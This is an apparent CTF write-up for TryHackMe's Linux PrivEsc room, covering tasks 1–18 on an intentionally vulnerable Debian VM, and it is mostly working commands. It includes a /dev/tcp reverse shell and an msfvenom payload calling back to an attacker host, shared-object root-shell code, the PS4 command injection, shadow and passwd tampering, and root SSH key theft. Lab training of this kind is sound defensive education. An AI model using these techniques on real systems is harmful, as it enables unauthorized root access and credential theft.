# TryHackMe — Linux PrivEsc Writeup

> **Room:** [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
> **Difficulty:** Medium
> **Category:** Privilege Escalation

## Overview

This room is an intentionally misconfigured Debian VM built to practice a wide range of **Linux privilege escalation** techniques — from trivially weak file permissions all the way through SUID binary abuse, kernel exploits, and NFS misconfigurations. Access starts via SSH as a low-privileged user (`user:password321`), and each of the 21 tasks introduces a new, independent way to escalate to `root`.

This writeup follows the room's official task structure and documents the manual exploitation steps alongside the underlying concept behind each vulnerability — not just the final answer.

---

## Table of Contents

1. [Deploy the Vulnerable Debian VM](#task-1--deploy-the-vulnerable-debian-vm)
2. [Service Exploits](#task-2--service-exploits)
3. [Weak File Permissions — Readable `/etc/shadow`](#task-3--weak-file-permissions--readable-etcshadow)
4. [Weak File Permissions — Writable `/etc/shadow`](#task-4--weak-file-permissions--writable-etcshadow)
5. [Weak File Permissions — Writable `/etc/passwd`](#task-5--weak-file-permissions--writable-etcpasswd)
6. [Sudo — Shell Escape Sequences](#task-6--sudo--shell-escape-sequences)
7. [Sudo — Environment Variables (`LD_PRELOAD`)](#task-7--sudo--environment-variables-ld_preload)
8. [Cron Jobs — File Permissions](#task-8--cron-jobs--file-permissions)
9. [Cron Jobs — PATH Environment Variable](#task-9--cron-jobs--path-environment-variable)
10. [Cron Jobs — Wildcards](#task-10--cron-jobs--wildcards)
11. [SUID/SGID Executables — Known Exploits](#task-11--suidsgid-executables--known-exploits)
12. [SUID/SGID Executables — Shared Object Injection](#task-12--suidsgid-executables--shared-object-injection)
13. [SUID/SGID Executables — Environment Variables](#task-13--suidsgid-executables--environment-variables)
14. [SUID/SGID Executables — Abusing Shell Features (#1)](#task-14--suidsgid-executables--abusing-shell-features-1)
15. [SUID/SGID Executables — Abusing Shell Features (#2)](#task-15--suidsgid-executables--abusing-shell-features-2)
16. [Passwords & Keys — History Files](#task-16--passwords--keys--history-files)
17. [Passwords & Keys — Config Files](#task-17--passwords--keys--config-files)
18. [Passwords & Keys — SSH Keys](#task-18--passwords--keys--ssh-keys)
19. [NFS — `no_root_squash`](#task-19--nfs--no_root_squash)
20. [Kernel Exploits](#task-20--kernel-exploits)
21. [Privilege Escalation Scripts](#task-21--privilege-escalation-scripts)

---

## Task 1 — Deploy the Vulnerable Debian VM

Deploy the room's machine and connect over SSH:

```bash
ssh user@<TARGET_IP>
# password: password321
```

Confirm the current privilege level:

```bash
id
```

```
uid=1000(user) gid=1000(user) groups=1000(user)
```

A standard, unprivileged user — the starting point for every technique below. A quick look at `uname -a` and `cat /proc/version` also confirms the exact kernel version, which becomes useful much later for Task 20 (Kernel Exploits).



---

## Task 2 — Service Exploits

Before looking at misconfigurations, check running services for known CVEs — a common real-world privesc vector in its own right.

```bash
ps aux | grep root
netstat -tulpn
```

Any root-owned service with a known public exploit can be leveraged directly via tools such as `searchsploit`.

---

## Task 3 — Weak File Permissions — Readable `/etc/shadow`

`/etc/shadow` stores password **hashes** and should only be readable by `root`. Check its permissions:

```bash
ls -l /etc/shadow
```

```
-rw-r--r-- 1 root root 1245 ... /etc/shadow
```

World-readable. Dump and crack the hashes offline:

```bash
cat /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



The root hash cracks to `password123` — enough to `su root` directly.



---

## Task 4 — Weak File Permissions — Writable `/etc/shadow`

A far more severe misconfiguration: the file itself is **writable**, not just readable.

```bash
ls -l /etc/shadow
```

```
-rw-rw-rw- 1 root root 1245 ... /etc/shadow
```

Instead of cracking anything, overwrite root's hash with one you control:

```bash
mkpasswd -m sha-512 newpasswordhere
```

Edit `/etc/shadow` and replace the hash in root's line (second field, between the first and second colon):

```
root:$6$<your_generated_hash>:18000:0:99999:7:::
```

```bash
su root
```

Enter the new password — instant root.



> Always `exit` the root shell when done, to avoid leaving an open privileged session.

---

## Task 5 — Weak File Permissions — Writable `/etc/passwd`

`/etc/passwd` is normally world-readable but root-writable only, and in modern systems the password field is just `x` (hashes live in `/etc/shadow`). Some systems still honor a hash placed directly in `/etc/passwd`.

```bash
ls -l /etc/passwd
```

```
-rw-rw-rw- 1 root root 1612 ... /etc/passwd
```

Generate a hash:

```bash
openssl passwd newpasswordhere
```

**Option A — overwrite root's entry:**

```
root:<generated_hash>:0:0:root:/root:/bin/bash
```

```bash
su root
```

**Option B — add a parallel root-equivalent user** (non-destructive):

```
newroot:<generated_hash>:0:0:root:/root:/bin/bash
```

```bash
su newroot
```

Because the UID is `0`, this account has full root privileges despite not being named `root`.



---

## Task 6 — Sudo — Shell Escape Sequences

Check what the current user can run as root without a password:

```bash
sudo -l
```

```
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```



Cross-reference each binary against [GTFOBins](https://gtfobins.github.io/) for a **sudo escape sequence**:

| Binary | Escape |
|---|---|
| `vim` | `sudo vim -c ':!/bin/bash'` |
| `find` | `sudo find . -exec /bin/sh \; -quit` |
| `less` / `more` | `sudo less /etc/profile` → type `!/bin/sh` |
| `nano` | `^R^X` → `reset; sh 1>&0 2>&0` |
| `ftp` | `sudo ftp` → `!/bin/sh` |
| `iftop` | `sudo iftop` → `!/bin/sh` |

Of the eleven binaries, **`apache2` has no documented shell escape sequence on GTFOBins.** It can still be abused indirectly via its `-f` flag to leak sensitive files:

```bash
sudo apache2 -f /etc/shadow
```

Apache attempts to parse `/etc/shadow` as a config file and leaks its first line (including root's hash) in the resulting error message — enough to crack offline.

---

## Task 7 — Sudo — Environment Variables (`LD_PRELOAD` / `LD_LIBRARY_PATH`)

Sudo can be configured to inherit certain environment variables from the user's own environment. Check which ones with:

```bash
sudo -l
```

```
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```

Both `LD_PRELOAD` and `LD_LIBRARY_PATH` are inherited — a critical misconfiguration. `LD_PRELOAD` loads a shared object before any others when a program runs; `LD_LIBRARY_PATH` provides a list of directories searched first for shared libraries.

### Method 1 — `LD_PRELOAD`

Compile a shared object using the provided code at `/home/user/tools/sudo/preload.c`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Run any program allowed via sudo while pointing `LD_PRELOAD` at the new shared object:

```bash
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

The dynamic linker loads `preload.so` with root privileges before the program itself starts, and the `_init` constructor spawns a root shell.

> Exit the root shell (and the chosen program, if needed) before continuing.

### Method 2 — `LD_LIBRARY_PATH`

This method targets a program that doesn't accept arbitrary arguments quite as flexibly — `apache2`. First check which shared libraries it loads:

```bash
ldd /usr/sbin/apache2
```

Pick one of the listed libraries (e.g. `libcrypt.so.1`) and create a malicious shared object with the exact same name, using the provided code at `/home/user/tools/sudo/library_path.c`:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run `apache2` via sudo, pointing `LD_LIBRARY_PATH` at `/tmp` so the dynamic linker finds the malicious library first:

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

A root shell spawns, because the malicious `libcrypt.so.1` is loaded in place of the real one before Apache's own code runs.



> Exit the root shell before continuing. As a follow-up exercise, try renaming `/tmp/libcrypt.so.1` to another library Apache uses and re-run the command — it likely won't work the same way, since not every library exposes a constructor hook the same way `libcrypt.so.1` does here. Worth investigating how `library_path.c` would need to change to target a different library successfully.

---

## Task 8 — Cron Jobs — File Permissions

Cron jobs are programs or scripts users can schedule to run at specific times or intervals. The configuration for these jobs is stored in **crontabs**, and the system-wide crontab lives at `/etc/crontab`.

View its contents:

```bash
cat /etc/crontab
```

Two cron jobs are scheduled to run every minute: one runs `overwrite.sh`, the other runs `/usr/local/bin/compress.sh`. Locate the full path of `overwrite.sh`:

```bash
locate overwrite.sh
```

Check its permissions:

```bash
ls -l /usr/local/bin/overwrite.sh
```

```
-rwxrw-rw- 1 root staff ... /usr/local/bin/overwrite.sh
```



World-writable — even though it runs as root via cron. Replace its contents with a reverse shell, substituting your own Kali IP:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Set up a listener on Kali and wait for the cron job to fire (should take under a minute):

```bash
nc -nvlp 4444
```

A root shell connects back. If it doesn't, double check the file's permissions — specifically whether the execute bit is still set, since overwriting the file's contents can sometimes reset it depending on how the edit was made.



> Remember to exit the root shell and remove the reverse shell code from `overwrite.sh` before continuing, so the cron job doesn't keep calling back.

---

## Task 9 — Cron Jobs — PATH Environment Variable

A cron job's script calls a binary **without an absolute path**, and the cron's `PATH` includes a directory the user can write to:

```bash
cat /etc/crontab
```

```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Note that `/home/user` — the user's own home directory — is listed **first** in `PATH`. Create a malicious script matching the name of a binary the real cron script calls without an absolute path:

```bash
echo '#!/bin/bash' > /home/user/overwrite.sh
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' >> /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```

When cron runs, it resolves the binary from the writable, earlier-priority PATH entry instead of the legitimate one.

```bash
/tmp/rootbash -p
```



---

## Task 10 — Cron Jobs — Wildcards

A cron job runs `tar` against the user's home directory using a wildcard (e.g. `tar czf backup.tar.gz *`):

```bash
cat /usr/local/bin/compress.sh
```

GTFOBins documents `tar`'s `--checkpoint` / `--checkpoint-action` flags as code-execution primitives. Craft a payload and two filenames `tar` will interpret as flags once the shell expands the wildcard:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f elf -o shell.elf

# host it and fetch on target, then:
chmod +x /home/user/shell.elf

touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```



Start a listener on Kali and wait for the cron job to fire:

```bash
nc -nvlp 4444
```

A root shell connects back.



> Remember to delete the created files afterward so the cron job doesn't keep re-triggering.

---

## Task 11 — SUID/SGID Executables — Known Exploits

Find all SUID/SGID binaries on the system:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```

An old `exim` binary (`/usr/sbin/exim-4.84-3`) stands out and matches **CVE-2016-1531**. A local copy of the exploit is provided:

```bash
/home/user/tools/suid/exim/cve-2016-1531.sh
```

Running it grants an immediate root shell.



---

## Task 12 — SUID/SGID Executables — Shared Object Injection

`/usr/local/bin/suid-so` is vulnerable to shared object injection — it attempts to load a `.so` file that doesn't exist yet, from a location the current user can write to.

Identify the missing file with `strace`:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Write a malicious shared object based on the provided example (`/home/user/tools/suid/libcalc.c`):

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    setuid(0);
    system("/bin/bash -p");
}
```

Compile it to the exact missing path:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Run the SUID binary again — the constructor fires with root privileges before `main()` even starts:

```bash
/usr/local/bin/suid-so
```



---

## Task 13 — SUID/SGID Executables — Environment Variables

`/usr/local/bin/suid-env` calls another program (`service`) **without an absolute path**, inheriting the user's `PATH`:

```bash
strings /usr/local/bin/suid-env
```

Compile a malicious `service` binary (from `/home/user/tools/suid/service.c`) that spawns a root shell:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Prepend the current directory to `PATH` and run the SUID binary:

```bash
export PATH=/home/user:$PATH
/usr/local/bin/suid-env
```

The SUID binary resolves `service` from the malicious, user-controlled directory first.



---

## Task 14 — SUID/SGID Executables — Abusing Shell Features (#1)

`/usr/local/bin/suid-env2` is similar to Task 13, but calls `service` by **absolute path** (`/usr/sbin/service`) to start Apache. The path itself can't be hijacked this time — but exported Bash **functions** take priority over binaries, even when the caller uses an absolute path.

```bash
strings /usr/local/bin/suid-env2
```

Define a malicious function named after the called command and export it:

```bash
function /usr/sbin/service() { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the SUID binary:

```bash
/usr/local/bin/suid-env2
```



---

## Task 15 — SUID/SGID Executables — Abusing Shell Features (#2)

On systems where exported-function hijacking (Task 14) is patched, Bash's debugging feature can be abused instead. When `SHELLOPTS=xtrace` is set, Bash prints the `PS4` variable before every traced command — and `PS4` can be set to a **command substitution**, which executes with the SUID binary's privileges the moment the script starts tracing.

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

This creates a SUID copy of `bash` at `/tmp/rootbash`. Run it with `-p` to preserve the elevated privileges:

```bash
/tmp/rootbash -p
```



> Clean up afterward: `rm /tmp/rootbash` and `exit` — you'll recreate this file again later in the room if needed.

The general lesson across Tasks 13–15:

> **Never allow a SUID/SGID binary to call external commands or invoke a shell without fully sanitizing the environment it inherits.**

---

## Task 16 — Passwords & Keys — History Files

Shell history often leaks credentials typed in plaintext during previous sessions, including full commands run against local services. Check all history files in the home directory, filtering for anything related to `mysql`:

```bash
cat ~/.*history | grep mysql
```

In this room, a leftover `mysql` command in history reveals valid database credentials — passed directly on the command line with the `-p` flag, which is exactly the kind of mistake this task demonstrates.



---

## Task 17 — Passwords & Keys — Config Files

Application and service configuration files frequently store credentials in plaintext. List the user's home directory for anything unusual:

```bash
ls /home/user
cat /home/user/myvpn.ovpn
```

The OpenVPN config references an auth file:

```bash
cat /etc/openvpn/auth.txt
```

This file contains root's plaintext credentials.



---

## Task 18 — Passwords & Keys — SSH Keys

Sometimes backups of sensitive files are left with incorrect permissions. Look for hidden files and directories at the filesystem root:

```bash
ls -la /
```

A hidden `.ssh` directory is present:

```bash
ls -l /.ssh
cat /.ssh/root_key
```

This is a world-readable **private SSH key** named after the `root` user. Copy it to your attacking machine and fix its permissions (SSH refuses to use overly-permissive key files):

```bash
scp user@<TARGET_IP>:/.ssh/root_key .
chmod 600 root_key
```

Log in directly as root — no further privilege escalation needed. Because this is an old Debian box, extra legacy algorithm flags are required:

```bash
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@<TARGET_IP>
```



> If SSH refuses the key with "bad permissions" or "UNPROTECTED PRIVATE KEY FILE", run `chmod 600 root_key` first — SSH will not use a private key that other users can read.

---

## Task 19 — NFS — `no_root_squash`

